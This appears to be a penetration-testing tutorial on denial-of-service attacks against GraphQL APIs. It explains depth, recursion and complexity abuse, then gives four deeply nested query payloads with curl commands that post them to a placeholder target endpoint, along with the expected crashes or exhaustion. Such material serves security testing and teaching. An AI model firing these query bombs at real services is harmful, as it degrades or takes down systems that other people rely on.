 ```yaml
---
title: Denial of Service Attacks in GraphQL APIs
description: Explore techniques for exploiting GraphQL APIs through denial of service
  attacks, abusing query depth, complexity, and resource exhaustion.
keywords:
- GraphQL DoS attacks
- query depth exploitation
- resource exhaustion
- GraphQL query complexity
- circular reference attacks
- query bombs
- recursive queries
- timeout exploitation
- GraphQL security
- Denial of Service
---
```


# Denial of Service Attacks

## Context

This article focuses on leveraging GraphQL endpoints for denial of service (DoS) attacks by abusing query depth, complexity, recursion, and resource exhaustion vectors. A fundamental understanding of GraphQL schema structure, query execution, and resource management in web applications, along with a basic grasp of GraphQL Injection techniques, is presumed.

## Theory

### Resource Exhaustion in GraphQL

Resource exhaustion in the context of GraphQL refers to the act of forcing a server to consume an excessive amount of CPU, memory, or time by crafting specific queries. Due to GraphQL’s flexibility, it is possible to design queries that result in highly expensive server-side operations. Most often, this is facilitated by the absence of limits on query depth, complexity, or recursion, leaving GraphQL APIs vulnerable to DoS attacks.

### Query Depth and Complexity Attacks

Query depth is defined as the maximum nesting level of fields that can be present in a GraphQL query. Query complexity, on the other hand, refers to the overall computational cost that is required to resolve a query, taking into account the multiplicity of fields and recursion. Attackers exploit these characteristics by submitting queries with excessive nesting or complexity to drain server resources. The protocol's recursive resolution of nested fields can be leveraged to exponentially increase the workload on the server.

### Recursive and Circular Reference Exploitation

Recursive queries reference the same type or field repeatedly, which can happen either intentionally or due to the schema's design. Schemas with circular references allow for queries that lead to infinite or excessive recursion. Attackers craft these queries to exploit circular references, potentially triggering stack overflows or memory exhaustion.

### Query Bombs and Timeout Exploitation

A query bomb is a single query intentionally designed to maximize server workload through deep nesting or recursion. When attackers use such query bombs, they can induce timeouts, degrade service performance, or even crash the GraphQL server. The absence of execution timeouts or mechanisms to analyze the cost of a query enhances the risk of DoS attacks through query bombs.

## Practice

### Deeply Nested Query for Depth-Based DoS

- **Payload:**

  ```graphql
  {
      user {
          posts {
              comments {
                  author {
                      posts {
                          comments {
                              author {
                                  id
                              }
                          }
                      }
                  }
              }
          }
      }
  }
  ```

  This query is crafted to have excessive nesting, exploiting depth limits.

- **Command to Execute:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query": "{ user { posts { comments { author { posts { comments { author { id } } } } } } } }"}'
  ```

  Send the deeply nested query to the GraphQL endpoint.

- **Outcome:** Possible server resource exhaustion leading to CPU or memory spikes, potential crash, or unresponsiveness.

### Recursive Query Exploitation via Circular References

- **Payload:**

  ```graphql
  {
      node {
          parent {
              parent {
                  parent {
                      parent {
                          id
                      }
                  }
              }
          }
      }
  }
  ```

  This query exploits recursive parent references, forcing repeated resolution.

- **Command to Execute:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query": "{ node { parent { parent { parent { parent { id } } } } } }"}'
  ```

  Submit the recursive query to the endpoint.

- **Outcome:** Likely outcome includes stack overflow, memory exhaustion, or server crash stemming from recursion.

### Query Bomb for Maximum Complexity

- **Payload:**

  ```graphql
  {
      users {
          posts {
              comments {
                  author {
                      posts {
                          comments {
                              author {
                                  posts {
                                      id
                                  }
                              }
                          }
                      }
                  }
              }
          }
      }
  }
  ```

  This query bomb is designed to multiply the workload with nested lists and references.

- **Command to Execute:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query": "{ users { posts { comments { author { posts { comments { author { posts { id } } } } } } } } }"}'
  ```

  Send the query bomb to the GraphQL endpoint.

- **Outcome:** Severe CPU/memory exhaustion leading to potential denial of service.

### Timeout Exploitation via Large Query Payloads

- **Payload:**

  ```graphql
  {
      users {
          posts {
              comments {
                  author {
                      id
                  }
              }
          }
      }
  }
  ```

  This large yet valid query aims to closely approach server timeout thresholds.

- **Command to Execute:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{"query": "{ users { posts { comments { author { id } } } } }"}'
  ```

  Submit the large query to observe for server timeout or degraded response.

- **Outcome:** Potential server response delays, timeouts, or temporary unavailability.

## Tools

- **curl**
- **GraphQL Voyager**
- **InQL**